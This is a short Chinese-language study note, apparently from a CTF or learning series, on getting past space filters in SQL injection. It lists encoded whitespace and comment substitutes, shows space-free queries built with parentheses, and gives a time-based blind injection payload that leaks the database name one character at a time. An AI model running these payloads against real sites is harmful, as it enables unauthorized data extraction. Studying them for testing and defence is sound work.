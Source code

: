 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: web6--sql注入
category:
  - 项目
---
```

## 1.绕过空格`（注释符/* */，%a0）`：

　　两个空格代替一个空格，用Tab代替空格，%a0=空格：`

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格

#### 2.括号绕过空格：

　　如果空格被过滤，括号没有被过滤，可以用括号绕过。

　　在MySQL中，括号是用来包围[子查询](https://so.csdn.net/so/search?q=%E5%AD%90%E6%9F%A5%E8%AF%A2&spm=1001.2101.3001.7020)的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```
select(user())from dual where(1=1)and(2=2)
```
这种过滤方法常常用于[time](https://so.csdn.net/so/search?q=time&spm=1001.2101.3001.7020) based盲注,例如：
```
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```
